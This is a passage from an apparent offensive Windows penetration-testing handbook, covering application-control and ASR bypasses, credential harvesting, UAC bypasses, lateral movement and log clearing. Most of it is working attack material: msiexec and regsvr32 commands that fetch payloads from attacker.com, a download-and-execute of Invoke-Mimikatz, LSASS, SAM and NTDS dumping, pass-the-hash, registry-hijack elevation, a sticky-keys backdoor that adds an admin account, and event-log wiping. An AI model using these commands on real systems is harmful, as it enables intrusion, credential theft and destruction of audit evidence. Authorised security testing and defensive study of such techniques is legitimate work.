

## Understanding What's Blocked

When an organization blocks scripting hosts, they typically use:

1. **AppLocker** - Blocks execution based on path, publisher, or hash
2. **WDAC (Windows Defender Application Control)** - Blocks unsigned/untrusted code
3. **ASR Rules** - Blocks specific behaviors (see Chapter 8)
4. **Intune Configuration Profiles** - Restricts application execution

---

## Method 1: MSI-Based Execution

MSI files are often allowed because they're needed for software installation.

### Remote MSI Installation

**Via Win+R:**
```
msiexec /q /i http://attacker.com/payload.msi
```

The `/q` flag runs silently, `/i` installs from the URL.

### Create a Malicious MSI

On your attack machine, create an MSI that executes your payload. Tools like WiX or msfvenom can help.

---

## Method 2: Compiled Executable Alternatives

If you can get an executable on disk and execute it:

### Look for Approved Scripting Languages

**Python (if installed):**
```
python.exe -c "import os; os.system('whoami')"
```

**Via Win+R:** `python -c "import os; os.system('whoami > C:\\Users\\Public\\out.txt')"`

**Node.js (if installed):**
```
node.exe -e "require('child_process').execSync('whoami').toString()"
```

**Perl (if installed):**
```
perl.exe -e "system('whoami')"
```

**Java (if installed):**
First create a Java file, then compile and run.

### Use .NET Executables That Might Be Allowed

**installutil.exe:**
Create a DLL with malicious code in the Uninstall method:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U malicious.dll
```

**regsvcs.exe/regasm.exe:**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe malicious.dll
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U malicious.dll
```

**MSBuild.exe:**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe malicious.xml
```

---

## Method 3: DLL-Based Execution

### regsvr32 with Remote SCT

This fetches and executes script from a remote server - no local file needed:

**Via Win+R:**
```
regsvr32 /s /n /u /i:http://attacker.com/payload.sct scrobj.dll
```

**The SCT file on your server:**
```xml
<?XML version="1.0"?>
<scriptlet>
<registration progid="Test" classid="{F0001111-0000-0000-0000-0000FEEDACDC}">
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
</scriptlet>
```

### rundll32 with DLLs

If you can get a DLL on disk:
```
rundll32.exe malicious.dll,EntryPoint
```

### odbcconf for DLL loading

```
odbcconf /a {REGSVR malicious.dll}
```

---

## Method 4: Abusing Allowed Applications

### Check What's Installed

Look in these locations (via Explorer):
- `C:\Program Files\`
- `C:\Program Files (x86)\`
- `C:\Users\<user>\AppData\Local\`

### Common Applications That Can Execute Code

**Microsoft Office (if macros not blocked):**
- Create a Word doc with macros
- Requires user interaction

**Visual Studio / Build Tools:**
```
devenv.exe /command "command"
```

**PowerShell ISE (sometimes allowed when PowerShell.exe isn't):**
```
powershell_ise.exe -Command "whoami"
```

**PowerShell 7/Core (pwsh.exe):**
```
pwsh.exe -Command "whoami"
```

**SQL Server Tools:**
```
sqlps.exe -Command "whoami"
```

### Third-Party Applications

Look for:
- Git (includes bash.exe)
- Cygwin
- WSL (Windows Subsystem for Linux)
- Scripting capabilities in installed apps

---

## Method 5: Abusing Windows Features

### Windows Sandbox (if enabled)

If Windows Sandbox is available, you have a clean Windows environment to work in.

### WSL (Windows Subsystem for Linux)

```
wsl.exe whoami
wsl.exe -e bash -c "command"
bash.exe -c "command"
```

### Hyper-V PowerShell Direct

If you have Hyper-V admin access, you can execute on VMs.

---

## Method 6: COM Objects

Some COM objects can execute commands and might not be blocked:

### Via compiled code (C#/VB.NET)

Create a small executable that uses COM:
```csharp
Type shellType = Type.GetTypeFromProgID("WScript.Shell");
dynamic shell = Activator.CreateInstance(shellType);
shell.Run("calc.exe");
```

---

## Method 7: Trusted Folder Bypass (AppLocker)

AppLocker often trusts certain folders. Check if these are writable:

```
C:\Windows\Tasks\
C:\Windows\Temp\
C:\Windows\tracing\
C:\Windows\System32\spool\drivers\color\
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys\
C:\ProgramData\Microsoft\Windows Defender\Platform\*\
```

Try copying an executable to these folders and running from there.

### The "Space" Trick

Create a folder that looks like a trusted path:
```
mkdir "C:\Windows \System32\"
```

Note the space after "Windows" - it's a different folder but looks the same!

---

## Method 8: When All Else Fails

### Check for Unblocked LOLBins via Win+R

Test each of these:
```
calc.exe                          → Basic test
notepad.exe                       → GUI access
explorer.exe                      → File browser
certutil.exe /?                   → Download capability
msiexec.exe /?                    → MSI install
pcalua.exe -a notepad.exe         → Program launcher
rundll32.exe shell32.dll,Control_RunDLL  → Control panel
control.exe                       → Control panel
```

### Last Resort: Physical Access

If you have physical access to the device:
1. Boot to recovery mode
2. Use BitLocker recovery key (see Chapter 10)
3. Modify system files
4. Create local admin account

---

## Quick Reference Table

| If this is blocked... | Try this instead... |
|----------------------|---------------------|
| cmd.exe | PowerShell, wscript, mshta |
| PowerShell.exe | pwsh.exe, powershell_ise.exe, cmd |
| wscript.exe | mshta, cscript |
| mshta.exe | regsvr32 with SCT |
| All scripting | MSI, compiled .NET, installed languages |
| All local execution | Remote MSI, remote SCT via regsvr32 |
| Everything | Physical access / boot to recovery |

---

# Chapter 8: Bypassing Attack Surface Reduction (ASR) Rules

**Scenario:** The organization uses Microsoft Defender's Attack Surface Reduction rules. These block specific attacker behaviors. This chapter covers each rule and potential bypasses.

## Understanding ASR Rules

ASR rules are part of Microsoft Defender for Endpoint. They block specific behaviors rather than specific files. Each rule can be in one of three modes:
- **Block** - Action is blocked
- **Audit** - Action is logged but not blocked
- **Disabled** - Rule is off

---

## How to Enumerate Active ASR Rules

### Method 1: PowerShell (if available)
```powershell
Get-MpPreference | Select-Object -ExpandProperty AttackSurfaceReductionRules_Ids
Get-MpPreference | Select-Object -ExpandProperty AttackSurfaceReductionRules_Actions
```

### Method 2: Registry
```
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules"
```

### Method 3: Check Defender Logs
Look in Event Viewer: `Microsoft-Windows-Windows Defender/Operational`
Event ID 1121 = ASR block
Event ID 1122 = ASR audit

---

## ASR Rules and Bypasses

### Rule 1: Block executable content from email client and webmail
**GUID:** `BE9BA2D9-53EA-4CDC-84E5-9B1EEEE46550`

**What it blocks:** Executables downloaded via Outlook or webmail

**Bypasses:**
- Download via browser instead of mail client
- Use non-executable formats (DLL, MSI) and execute via LOLBins
- Archive files (ZIP) may bypass
- Rename extension, restore after download

---

### Rule 2: Block all Office applications from creating child processes
**GUID:** `D4F940AB-401B-4EFC-AADC-AD5F3C50688A`

**What it blocks:** Word, Excel, PowerPoint, etc. spawning cmd, powershell, etc.

**Bypasses:**
- Use Office macros to write files, then trigger via scheduled task
- DDE (Dynamic Data Exchange) - limited effectiveness
- Use OLE/COM objects within Office to interact with system
- Write to startup folder, wait for user login
- Trigger external application via hyperlink protocol handlers

**Example - Write file and create scheduled task:**
```vba
Sub Bypass()
    ' Write payload to disk
    Open "C:\Users\Public\payload.bat" For Output As #1
    Print #1, "whoami > C:\Users\Public\out.txt"
    Close #1

    ' Create scheduled task via COM (doesn't spawn child process)
    Set service = CreateObject("Schedule.Service")
    service.Connect
    Set rootFolder = service.GetFolder("\")
    Set taskDef = service.NewTask(0)
    taskDef.Settings.Enabled = True

    Set trigger = taskDef.Triggers.Create(1)
    trigger.StartBoundary = "2025-01-01T00:00:00"

    Set Action = taskDef.Actions.Create(0)
    Action.Path = "C:\Users\Public\payload.bat"

    rootFolder.RegisterTaskDefinition "Update", taskDef, 6, "", "", 3
End Sub
```

---

### Rule 3: Block Office applications from creating executable content
**GUID:** `3B576869-A4EC-4529-8536-B80A7769E899`

**What it blocks:** Office apps writing .exe, .dll, .scr files

**Bypasses:**
- Write non-executable extension, rename later via scheduled task
- Write script files (.vbs, .js, .ps1) instead
- Write to alternate data streams
- Use compression (write .zip containing executable)

---

### Rule 4: Block Office applications from injecting code into other processes
**GUID:** `75668C1F-73B5-4CF0-BB93-3ECF5CB7CC84`

**What it blocks:** Process injection from Office apps

**Bypasses:**
- Don't inject - instead write to disk and execute via other means
- Use COM objects for interaction without injection
- Trigger execution through scheduled tasks or registry run keys

---

### Rule 5: Block JavaScript or VBScript from launching downloaded executable content
**GUID:** `D3E037E1-3EB8-44C8-A917-57927947596D`

**What it blocks:** Scripts launching executables that have Mark of the Web (MOTW)

**Bypasses:**
- Remove MOTW before execution:
  ```
  echo.>file.exe:Zone.Identifier
  ```
- Copy file through certain operations that strip MOTW
- Use container formats that don't preserve MOTW (ISO, VHD)
- Execute from network share (UNC path)

**VBScript to remove MOTW:**
```vbs
Set fso = CreateObject("Scripting.FileSystemObject")
fso.DeleteFile "C:\Users\Public\file.exe:Zone.Identifier"
```

---

### Rule 6: Block execution of potentially obfuscated scripts
**GUID:** `5BEB7EFE-FD9A-4556-801D-275E5FFC04CC`

**What it blocks:** Scripts with heavy obfuscation (encoding, string manipulation)

**Bypasses:**
- Reduce obfuscation - use simple variable names
- Split payload across multiple files
- Use environment variables for sensitive strings
- Avoid common obfuscation patterns (Base64, char codes)
- Execute simple stager that downloads and runs clean code

**Instead of:**
```powershell
$a=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('d2hvYW1p'))
```

**Use:**
```powershell
whoami
```

---

### Rule 7: Block Win32 API calls from Office macros
**GUID:** `92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B`

**What it blocks:** Declare statements, API calls from VBA

**Bypasses:**
- Use pure VBA/COM without API calls
- Use .NET interop instead of direct Win32
- Create objects instead of calling APIs
- Execute external tools via scheduled tasks

---

### Rule 8: Block executable files from running unless they meet prevalence, age, or trusted list criterion
**GUID:** `01443614-CD74-433A-B99E-2ECDC07BFC25`

**What it blocks:** Uncommon/new executables

**Bypasses:**
- Use common Windows tools (LOLBins)
- Use scripts instead of executables
- Use Microsoft-signed binaries
- Wait for prevalence to build (patience)
- Compile payloads to match trusted characteristics

---

### Rule 9: Block credential stealing from LSASS
**GUID:** `9E6C4E1F-7D60-472F-BA1A-A39EF669E4B2`

**What it blocks:** Reading LSASS memory

**Bypasses:**
- Use methods that don't access LSASS directly:
  - Dump SAM/SYSTEM registry hives
  - DCSync from domain controller
  - Kerberoasting
  - AS-REP roasting
- Use tools with custom LSASS access methods:
  - NanoDump
  - Silent Process Exit abuse
  - Faultrep.dll method
- Use driver-based access (requires kernel)

**Registry-based credential access:**
```
reg save hklm\sam sam.hive
reg save hklm\system sys.hive
reg save hklm\security sec.hive
```

---

### Rule 10: Block process creations originating from PSExec and WMI commands
**GUID:** `D1E49AAC-8F56-4280-B9BA-993A6D77406C`

**What it blocks:** Child processes from WMI and PSExec

**Bypasses:**
- Use DCOM instead of WMI
- Use scheduled tasks for remote execution
- Use WinRM instead of PSExec
- Use SSH (if available)
- Use RDP for interactive access

**Using DCOM (MMC20.Application):**
```powershell
$com = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application","target"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami > C:\out.txt","7")
```

---

### Rule 11: Block untrusted and unsigned processes that run from USB
**GUID:** `B2B3F03D-6A65-4F7B-A9C7-1C7EF74A9BA4`

**What it blocks:** Running unsigned executables from removable media

**Bypasses:**
- Copy to local disk first
- Use signed executables
- Use scripts instead (may not be blocked)
- Mount USB contents to network share

---

### Rule 12: Block Office communication application from creating child processes
**GUID:** `26190899-1602-49E8-8B27-EB1D0A1CE869`

**What it blocks:** Outlook spawning processes

**Bypasses:**
- Same as Rule 2 - use scheduled tasks, registry, etc.
- Write files and trigger later

---

### Rule 13: Block Adobe Reader from creating child processes
**GUID:** `7674BA52-37EB-4A4F-A9A1-F0F9A1619A2C`

**What it blocks:** Adobe Reader spawning processes

**Bypasses:**
- Use PDF to write file, trigger via other means
- Embed content that opens in browser instead
- Use alternate PDF readers
- Target non-PDF delivery methods

---

### Rule 14: Block persistence through WMI event subscription
**GUID:** `E6DB77E5-3DF2-4CF1-B95A-636979351E5B`

**What it blocks:** WMI event-based persistence

**Bypasses:**
- Use scheduled tasks instead
- Use registry run keys
- Use startup folder
- Use services
- Use DLL search order hijacking

---

### Rule 15: Block abuse of exploited vulnerable signed drivers
**GUID:** `56A863A9-875E-4185-98A7-B882C64B5CE5`

**What it blocks:** Known vulnerable driver loading

**Bypasses:**
- Use lesser-known vulnerable drivers
- Use legitimate drivers
- Use other kernel access methods

---

### Rule 16: Use advanced protection against ransomware
**GUID:** `C1DB55AB-C21A-4637-BB3F-A12568109D35`

**What it blocks:** Ransomware-like behavior

**Not really relevant for penetration testing**

---

### Rule 17: Block Webshell creation for Servers
**GUID:** `A8F5898E-1DC8-49A9-9878-85004B8A61E6`

**What it blocks:** Creating web shells in web directories

**Bypasses:**
- Write to non-web directories, move later
- Use extension that isn't monitored
- Modify existing legitimate files instead of creating new ones
- Use webshell that doesn't match signatures

---

## ASR Bypass Decision Tree



---

# Chapter 9: Hunting for Credentials

**Scenario:** You have access and now want to find credentials - passwords, tokens, hashes, anything you can use to move further.

## Decision Tree for This Chapter



## Step 1: Look for Cached Browser Credentials
[[T1555.003](https://attack.mitre.org/techniques/T1555/003/) - Credentials from Password Stores: Web Browsers]

**Google Chrome:**
```
%APPDATA%\Google\Chrome\User Data\*\Login Data
%APPDATA%\Google\Chrome\User Data\*\Cookies
%APPDATA%\Google\Chrome\User Data\Local State
```

**Mozilla Firefox:**
```
%APPDATA%\Mozilla\Firefox\Profiles\*\logins.json
%APPDATA%\Mozilla\Firefox\Profiles\*\key4.db
%APPDATA%\Mozilla\Firefox\Profiles\*\cookies.sqlite
```

**Microsoft Edge:**
```
%APPDATA%\Microsoft\Edge\User Data\*\Login Data
%APPDATA%\Microsoft\Edge\User Data\*\Cookies
%APPDATA%\Microsoft\Edge\User Data\Local State
```

Use esentutl to copy locked database files:
```
esentutl.exe /y "C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Login Data" /d C:\Users\Public\logindata.db
```

## Step 2: Look for Cloud Tokens
[[T1528](https://attack.mitre.org/techniques/T1528/) - Steal Application Access Token]

**Teams tokens:**
```
dir %APPDATA%\Microsoft\Teams\*.txt | findstr "token"
type %APPDATA%\Microsoft\Teams\storage.json
```

**Azure/Entra tokens:**
```
dir %LOCALAPPDATA%\Packages\Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy\AC\TokenBroker\Accounts\*.json
dir %LOCALAPPDATA%\Microsoft\IdentityCache\*.json
type %USERPROFILE%\.azure\accessTokens.json
type %USERPROFILE%\.azure\azureProfile.json
```

**PowerShell (if available):**
```powershell
Get-AzureADServicePrincipal
Get-AzureADApplication
Get-MgServicePrincipal
Get-MgApplication
```

## Step 3: Dump LSASS Memory (Requires Admin)
[[T1003.001](https://attack.mitre.org/techniques/T1003/001/) - OS Credential Dumping: LSASS Memory]

**Using procdump:**
```
procdump.exe -accepteula -ma lsass.exe C:\Windows\Temp\mem.dmp
```

**Using rundll32 and comsvcs.dll:**
```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\Temp\lsass.dmp full
```

**Find LSASS PID first:**
```
tasklist /svc | findstr lsass
```

**If ASR blocks this, see alternative methods in Chapter 8.**

## Step 4: Use Mimikatz (Requires Admin)
[[T1003.001](https://attack.mitre.org/techniques/T1003/001/) - OS Credential Dumping: LSASS Memory]

```
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
mimikatz.exe privilege::debug sekurlsa::logonPasswords full samdump::hashes exit > output.txt
```

**Invoke-Mimikatz (PowerShell):**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://x.com/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

## Step 5: Dump SAM Database (Requires Admin)
[[T1003.002](https://attack.mitre.org/techniques/T1003/002/) - OS Credential Dumping: Security Account Manager]

This works even when ASR blocks LSASS access:

```
reg save hklm\sam C:\Users\Public\sam.hive
reg save hklm\system C:\Users\Public\sys.hive
reg save hklm\security C:\Users\Public\sec.hive
```

Then extract offline with secretsdump, mimikatz, etc.

## Step 6: Dump NTDS.dit (Domain Controller Only)
[[T1003.003](https://attack.mitre.org/techniques/T1003/003/) - OS Credential Dumping: NTDS]

```
ntdsutil.exe "activate instance ntds" "ifm" "create full C:\Windows\temp\ntds_dump" q q
```

**Or via wmic:**
```
wmic process call create "ntdsutil \"activate instance ntds\" ifm \"create full C:\temp\dump\""
```

## Step 7: Pass the Hash
[[T1550.002](https://attack.mitre.org/techniques/T1550/002/) - Use Alternate Authentication Material: Pass the Hash]

Once you have hashes:

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>" exit
```

## Step 8: Look for Azure Key Vault Secrets
[[T1555.006](https://attack.mitre.org/techniques/T1555/006/) - Credentials from Cloud Secrets Management Stores]

**Azure CLI:**
```
az keyvault secret list --vault-name <vault_name>
az keyvault secret show --vault-name <vault_name> --name <secret_name>
```

**PowerShell:**
```powershell
Get-AzKeyVaultSecret -VaultName <vault_name> -Name <secret_name>
```

## Step 9: Look for Files Containing Passwords

Common locations and file names:
```
dir /s *pass* *cred* *vnc* *.config
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

**Common files:**
```
C:\unattend.xml
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\system32\sysprep\unattend.xml
```

---

# Chapter 10: Privilege Escalation

**Scenario:** You're a standard user and need to become admin. Here are the paths.

## Decision Tree for This Chapter



## Step 1: Check Current Privileges

```
whoami /priv
whoami /groups
net localgroup administrators
```

## Step 2: UAC Bypass Methods
[[T1548.002](https://attack.mitre.org/techniques/T1548/002/) - Abuse Elevation Control Mechanism: Bypass UAC]

### Fodhelper Method

This works because fodhelper.exe auto-elevates and checks a registry key you can write to:

**Via CMD/PowerShell:**
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe /c <your_command>" /f
fodhelper.exe
```

**Via VBScript (when CMD blocked):**
```vbs
Set WshShell = CreateObject("WScript.Shell")
WshShell.RegWrite "HKCU\Software\Classes\ms-settings\Shell\Open\command\", "cmd.exe /c whoami > C:\Users\Public\out.txt", "REG_SZ"
WshShell.RegWrite "HKCU\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute", "", "REG_SZ"
WshShell.Run "fodhelper.exe", 0, True
' Cleanup
WshShell.RegDelete "HKCU\Software\Classes\ms-settings\"
```

**Cleanup after:**
```
reg delete HKCU\Software\Classes\ms-settings /f
```

### Event Viewer Method

```
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "cmd.exe /c <your_command>" /f
eventvwr.exe
```

**Cleanup:**
```
reg delete HKCU\Software\Classes\mscfile /f
```

### wsreset Method

```
reg add HKCU\Software\Classes\AppX82a6gwre4fdg3bt635ber5a8bwht\Shell\open\command /d "cmd.exe /c <payload>" /f
reg add HKCU\Software\Classes\AppX82a6gwre4fdg3bt635ber5a8bwht\Shell\open\command /v DelegateExecute /f
wsreset.exe
```

### computerdefaults Method

```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe /c <payload>" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /f
computerdefaults.exe
```

### sdclt Method

```
reg add HKCU\Software\Classes\Folder\shell\open\command /d "cmd.exe /c <your_command>" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v DelegateExecute /f
sdclt.exe
```

**Cleanup:**
```
reg delete HKCU\Software\Classes\Folder /f
```

### CMSTP Method

Create `malicious.inf`:
```ini
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]
cmd /c <your_command>
taskkill /IM cmstp.exe /F

[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7

[AllUSer_LDIDSection]
"HKLM", "SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE", "ProfileInstallPath", "%UnexpectedError%", ""

[Strings]
ServiceName="CorpVPN"
ShortSvcName="CorpVPN"
```

Run:
```
cmstp.exe /ni /s c:\temp\malicious.inf
```

## Step 3: BitLocker Recovery Escalation (Physical Access)
[[T1548](https://attack.mitre.org/techniques/T1548/) - Abuse Elevation Control Mechanism]

If you have physical access:

1. Go to https://myaccount.microsoft.com/device-list and get your device's BitLocker key
2. Hold Shift + Restart → Troubleshoot → Advanced Options → Command Prompt
3. Enter recovery key when prompted
4. In the elevated command prompt:

```
copy X:\Windows\System32\cmd.exe X:\Windows\System32\sethc.exe /Y
```

5. Exit and boot normally
6. At the login screen, press Shift 5 times
7. A command prompt opens as SYSTEM:

```
net user attacker P@ssw0rd /add
net localgroup administrators attacker /add
```

## Step 4: Cloud Privilege Escalation
[[T1548.005](https://attack.mitre.org/techniques/T1548/005/) - Temporary Elevated Cloud Access]

**Request a Temporary Access Pass (if allowed):**
```powershell
New-AzureADUserTemporaryAccessPass -ObjectId <your_object_id>
```

**Assign roles (requires permissions):**
```
az role assignment create --assignee <user_id> --role "Contributor" --scope <scope>
```

```powershell
New-AzRoleAssignment -ObjectId <user_id> -RoleDefinitionName "Owner" -Scope <scope>
```

---

# Chapter 11: Moving Laterally to Other Systems

**Scenario:** You've compromised one system and want to move to others in the network.

## Decision Tree for This Chapter



## Step 1: Find Other Systems
[[T1018](https://attack.mitre.org/techniques/T1018/) - Remote System Discovery]

```
net view
net view /domain
ping <target>
nslookup <hostname>
dir \\<ip>\c$\windows\system32\tasks
```

## Step 2: Connect to SMB Shares
[[T1021.002](https://attack.mitre.org/techniques/T1021/002/) - Remote Services: SMB/Windows Admin Shares]

```
net use \\<remote_ip> "<password>" /u:<domain>\<username>
```

## Step 3: Copy Tools to Remote System
[[T1570](https://attack.mitre.org/techniques/T1570/) - Lateral Tool Transfer via SMB]

```
copy * \\<remote_ip>\C$\windows\temp\
```

## Step 4: Create Remote Service
[[T1543.003](https://attack.mitre.org/techniques/T1543/003/) - Create or Modify System Process: Windows Service]

```
sc \\<server_ip> create <service_name> binpath= "<path_to_executable>"
sc \\<server_ip> start <service_name>
```

## Step 5: Create Remote Scheduled Task
[[T1053.005](https://attack.mitre.org/techniques/T1053/005/) - Scheduled Task/Job]

```
schtasks /s <remote_host> /tn <task_name> /u <domain>\<username> /p <password> /create /ru system /sc once /st 00:00 /tr <command>
schtasks /s <remote_host> /tn <task_name> /run
```

## Step 6: Remote Command Execution via WMI
[[T1047](https://attack.mitre.org/techniques/T1047/) - Windows Management Instrumentation]

**Note:** May be blocked by ASR Rule 10

```
wmic /node:"<remote_ip>" process call create "powershell <command>"
```

```powershell
Get-WmiObject -ComputerName <host> -Class Win32_ComputerSystem | Select-Object UserName
```

## Step 7: DCOM Execution (ASR Bypass)

When WMI is blocked by ASR:

```powershell
$com = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application","<target>"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami > C:\out.txt","7")
```

## Step 8: RDP Access
[[T1021.001](https://attack.mitre.org/techniques/T1021/001/) - Remote Services: Remote Desktop Protocol]

Add user to RDP group and open firewall:

```
net localgroup "Remote Desktop Users" <username> /add
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

## Step 9: WinRM Execution

```powershell
Enter-PSSession -ComputerName <target> -Credential <domain>\<user>
Invoke-Command -ComputerName <target> -ScriptBlock { whoami } -Credential <domain>\<user>
```

## Step 10: Cloud Lateral Movement
[[T1021.007](https://attack.mitre.org/techniques/T1021/007/) - Remote Services: Cloud Services]

**Execute commands on Azure VMs:**
```powershell
Invoke-AzVMRunCommand -ResourceGroupName <rg> -VMName <vm> -CommandId 'RunPowerShellScript' -ScriptString '<command>'
```

```
az vm run-command invoke --resource-group <rg> --name <vm> --command-id RunShellScript --scripts '<command>'
```

**Azure Automation Runbooks:**
```powershell
Invoke-AzAutomationRunbook -AutomationAccountName <account> -Name <runbook> -ResourceGroupName <rg>
```

---

# Chapter 12: Covering Your Tracks

**Scenario:** You've completed your objectives and want to clean up evidence.

## Step 1: Clear Windows Event Logs
[[T1070.001](https://attack.mitre.org/techniques/T1070/001/) - Indicator Removal: Clear Windows Event Logs]

```
wevtutil cl system
wevtutil cl security
wevtutil cl application
wevtutil cl "Windows PowerShell"
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

## Step 2: Remove Scheduled Tasks
[[T1070.009](https://attack.mitre.org/techniques/T1070/009/) - Indicator Removal: Clear Persistence]

```
schtasks /s <remote_host> /tn <task_name> /u <domain>\<username> /p <password> /f /delete
```

## Step 3: Disconnect Network Shares
